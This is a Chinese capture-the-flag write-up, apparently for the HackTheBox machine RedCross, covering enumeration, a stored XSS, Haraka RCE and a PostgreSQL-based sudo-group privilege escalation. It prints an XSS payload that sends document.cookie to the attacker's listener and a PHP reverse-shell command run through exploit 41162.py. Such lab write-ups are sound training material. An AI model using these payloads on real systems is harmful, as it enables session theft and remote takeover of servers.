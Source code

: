 ```yaml
---
description: 中等 / XSS / PostgreSQL
---
```


# ✔️ RedCross

## 建立立足点

### 信息收集

* 使用Nmap进行对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA redcross 10.129.9.55 --open
```

<figure><img src="../../.gitbook/assets/1 (33).png" alt=""><figcaption></figcaption></figure>

* 检查80端口上的内容，发现它重定向到https://intra.redcross.htb/这个地址，将域名添加到/hosts文件中，然后再次访问，获得一个登录页面：

<figure><img src="../../.gitbook/assets/2 (31).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/3 (28).png" alt=""><figcaption></figcaption></figure>

* 尝试几个弱口令均失败后，使用dirsearch扫描是否有隐藏文件/目录，没什么收获：

```bash
dirsearch -u  http://10.129.9.55 -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用Wfuzz尝试扫描子域，发现有两个结果：

```bash
wfuzz -c -u https://intra.redcross.htb -H "Host:FUZZ.redcross.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl
```

<figure><img src="../../.gitbook/assets/5 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 将以上子域也添加到/hosts文件中，再访问admin这个子域就获得了一个管理登录界面，简单尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/6 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 找到的两个登录界面也没有查看到所使用的公开已知的软件信息，因此无法通过常规的搜寻公开已知漏洞进行利用。在当前没有任何有效凭证的情况下，尝试暴力破解无果。决定从头枚举，发现遗漏了对443端口的扫描：

```bash
dirbuster -u https://intra.redcross.htb:443 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -r
```

* 陆续又扫出一些目录和页面：

<figure><img src="../../.gitbook/assets/8 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (28).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 花了大量的时间进行扫描，实在是没找到什么有用的东西和凭证，所以决定从已经枚举出的页面进行测试。因为其他几个都是登录页面，所以先从有输入框的contact页面开始进行XSS测试，先寻找XSS注入点。
* 首先简单写个\<script>脚本标签，依次放入不同的输入框中进行POST提交，观察有无返回信息，以及返回信息的具体内容：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 当把\<script>脚本标签放入contact phone or email这个框中时，返回了已发送的提示，说明此时我们已找到了注入点：

<figure><img src="../../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后开始构建注入语句，先简单测试一下和本机是否通信：

```html
# 在输入框中
<script src="http://10.10.16.17:8888/test"></script>
# 在Kali本机做好监听
nc -lvnp 8888
```

<figure><img src="../../.gitbook/assets/16 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 然后构建一个尝试获取有效的会话cookie的语句，当能获取到有效的cookie时，我们就能将该cookie放入自己的浏览器中，绕过原有的密码输入，伪装成该用户进行登录：

<pre class="language-html"><code class="lang-html">nc -lvnp 8888
<strong>&#x3C;script>new Image().src="http://10.10.16.17:8888/test.php?c="+document.cookie;&#x3C;/script>
</strong></code></pre>

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时已获取到了有效的PHPSESSIONID，并且后面的域是指向admin的，说明是admin这个页面的cookie，去admin页面登录。替换掉原有的PHPSESSIONID，然后刷新页面即可登录成功：

<figure><img src="../../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

* 进入Network Access，发现是一个设置白名单的界面，将自己的IP先添加进去：

<figure><img src="../../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

* 进入User Management里，添加一个新用户，获得了系统生成的密码，同时还发现了另一个用户tricia：

<figure><img src="../../.gitbook/assets/44.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

* 尝试用这个有效凭证登录之前的intra页面，登录失败：

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

* 但是根据Nmap的扫描结果，还有一个SSH服务，利用这个有效凭证登录成功：

<figure><img src="../../.gitbook/assets/26.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27.png" alt=""><figcaption></figcaption></figure>

* 里面并没有flag，但是找到了另外一个新用户：penelope
* 因为已经将自己的IP地址加入了目标系统的白名单，再次扫描开放端口发现多了几个：

```bash
nmap -sC -sV -p- -oA redcross2 10.129.6.250 --open
```

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

* 尝试匿名登录FTP失败：

<figure><img src="../../.gitbook/assets/29.png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出结果，5432端口上运行了postgresql服务，尝试用默认凭证登录不成功：

<figure><img src="../../.gitbook/assets/30.png" alt=""><figcaption></figcaption></figure>

* 还剩下一个1025端口，因为该端口上运行的并不是常规的服务，所以可以使用netcat和该端口上的服务进行交互，从而获取到它运行的服务名和版本等信息：

```bash
nc -vvvv 10.129.6.250 1025
```

<figure><img src="../../.gitbook/assets/31.png" alt=""><figcaption></figcaption></figure>

* 得到服务为：Haraka 2.8.8，然后搜索相关公开漏洞发现有一个远程命令注入：

<figure><img src="../../.gitbook/assets/33.png" alt=""><figcaption></figcaption></figure>

* 下载搜索到的脚本到本地：

<figure><img src="../../.gitbook/assets/34.png" alt=""><figcaption></figcaption></figure>

* 查看帮助信息如何使用该脚本，并且查看脚本内容发现默认端口处需要修改为目标的开放端口1025：

<figure><img src="../../.gitbook/assets/35.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/36.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/37.png" alt=""><figcaption></figcaption></figure>

* 利用该脚本执行反弹shell，此处用到常用的pentestmokey reverse shell中的PHP反弹shell：

<figure><img src="../../.gitbook/assets/38.png" alt=""><figcaption></figcaption></figure>

```bash
# 注意需要转义符，并在kali本机做好监听
python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.16.17\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.129.6.250
```

<figure><img src="../../.gitbook/assets/39 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/40.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/41.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 常规的枚举检查，没有找到可以利用的点：

<figure><img src="../../.gitbook/assets/42.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/43.png" alt=""><figcaption></figcaption></figure>

* 依次检查目标系统上的各个目录，在/var/www/html/admin/pages目录下找到几个php文件，其中actions.php、login.php、users.php里面都包含了大量的可用于连接postgresql的用户凭证：

<figure><img src="../../.gitbook/assets/45.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/46.png" alt=""><figcaption></figcaption></figure>

* 使用以上用户凭证连接数据库，该文件中已经包含了table名，直接查询获得之前admin界面的两个用户凭证：

```bash
psql -h 127.0.0.1 -p 5432 -U unixusrmgr -d unix
# 查询表里的用户名和密码
SELECT * FROM passwd_table;
```

<figure><img src="../../.gitbook/assets/48.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/47 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 因为系统中的每一个用户都有唯一的UID和GID，当可以滥用sudo配置将任意用户添加进sudo组，就能通过sudo命令执行root权限才能执行的命令，实现提权。查询sudo组的ID为27，将之前新添加进去的用户fiii的GID改为27：

```bash
# 在postgresql中
update passwd_table set gid=27 where uid=2021;
```

<figure><img src="../../.gitbook/assets/49 (1).png" alt=""><figcaption></figcaption></figure>

* 之前已经由目标系统生成了新用户的凭证，所以直接登录ssh服务，然后切换超级用户即可实现提权：

```bash
ssh fiii@10.129.111.68
sudo su
```

<figure><img src="../../.gitbook/assets/50.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/51.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/52.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例完成的并不顺利，对我来说有一些难度。Get Shell阶段当没有任何收获时，多换几个工具扫描试试，但不能一味指望着扫描能扫出来东西，会浪费很多时间。靶场的机器名字有时是关于所使用的应用的漏洞提示，有时还可以是关于攻击手法的提示。权限提升阶段涉及到对目标系统各个文件夹的枚举，并不是因为某第三方软件或者系统有漏洞，而是属于滥用sudo配置可将任意用户添加进sudo组所导致的提权成功。

(本例机器中途重置过，IP地址有变化，但不影响漏洞利用及其实现结果)
{% endhint %}
